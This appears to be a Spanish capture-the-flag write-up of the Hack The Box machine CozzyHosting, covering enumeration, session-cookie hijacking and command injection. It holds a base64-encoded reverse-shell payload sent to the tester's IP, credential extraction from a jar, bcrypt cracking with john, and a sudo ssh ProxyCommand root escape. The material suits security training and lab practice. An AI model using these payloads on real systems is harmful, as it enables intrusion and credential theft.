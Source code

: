```yaml
---
layout: single
title: CozzyHosting
excerpt: CozzyHosting machine
date: 2024-06-28
classes: wide
header:
  teaser: /assets/images/CozzyHosting.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - ctf
  - hackthebox
tags:
  - xss
  - sqli
  - hash
---
```

![[CozyHosting.png]]
![](CozyHosting.png)
![](/assets/images/CozyHosting.png)
## Puertos
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```sh
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```sh
sudo nmap -sCV -A -p22,80 10.10.11.230
```

**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**

Encontramos información como la versión del ssh, el puerto 80 usa nginx

## Puerto 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```sh
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```sh
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![[Pasted image 20240628225207.png]]*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.

Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```sh
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```

Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"
# Ganando acceso
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![[Pasted image 20240628225239.png]]

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![[Pasted image 20240628225302.png]]

Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![[Pasted image 20240628225329.png]]

## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![[Pasted image 20240628225347.png]]
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.

## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```sh
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```sh
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![[Pasted image 20240628225405.png]]
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```sh
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```sh
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![[Pasted image 20240628225430.png]]

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![[Pasted image 20240628225442.png]]
l listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```sh
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```sh
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```sh
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```sh
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![[Pasted image 20240628225507.png]]

Mostramos el contenido de las columnas de la tabla `user`
![[Pasted image 20240628225522.png]]

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```sh
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![[Pasted image 20240628225543.png]]

ngresamos mediante `ssh` usando la contraseña y el usuario `josh`
```sh
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:
![[Pasted image 20240628225553.png]]
# Escalada de privilegios
Probamos si ejecutar algún comando como root:
```sh
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```sh
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![[Pasted image 20240628225608.png]]
